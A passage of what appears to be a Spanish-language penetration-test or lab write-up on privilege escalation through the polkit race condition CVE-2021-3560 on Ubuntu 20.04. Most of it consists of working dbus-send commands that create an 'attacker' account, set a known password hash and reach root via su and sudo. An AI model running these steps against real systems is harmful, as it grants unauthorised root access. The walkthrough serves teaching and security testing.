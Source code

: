 ### Escalación de Privilegios 
Revisemos rápidamente el directorio `/etc/apparmor.d` para ver si hay alguna configuración que nos impida enumerar:

El siguiente paso seria observar cualquier paquete el cual no ha sido actualizado
> `apt list --upgradeable`

Desafortunadamente para el cliente, las bibliotecas de polkit no están actualizadas (versión 0.105-26ubuntu1 en lugar de 0.105-26ubuntu1.1). Existe una vulnerabilidad de escalada de privilegios en el módulo de autenticación de Polkit que afecta a Ubuntu 20.04 (CVE-2021-3560). Por lo tanto puede ser usada.

Verificar la existencia del usuario que se trata de introducir
> `id attacker`

Obtener un punto de referencia de cuánto tiempo lleva enviar y procesar un mensaje dbus al daemon de cuentas
> `time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1`

Se necesita tomar el mismo mensaje dbus, enviarlo y luego cortarlo aproximadamente a la mitad de la ejecución.
> `dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1 & sleep 0.005s; kill $!`

A continuación, debemos establecer una contraseña para esta cuenta. Usamos exactamente la misma técnica aquí, pero con un mensaje dbus diferente. Cualquier retraso que funcionó la última vez también debería funcionar aquí
> `dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1000 org.freedesktop.Accounts.User.SetPassword string:'$6$TRiYeJLXw8mLuoxS$UKtnjBa837v4gk8RsQL2qrxj.0P8c9kteeTnN.B3KeeeiWVIjyH17j6sLzmcSHn5HTZLGaaUDMC4MXCjIupp8.' string:'Ask the pentester' & sleep 0.005s; kill $!`

El hash pertenece a la contraseña de `Expl01ted`, por lo tanto podemos acceder a root de la siguiente forma:
> `su attacker`

y luego usar:
> `sudo -s`
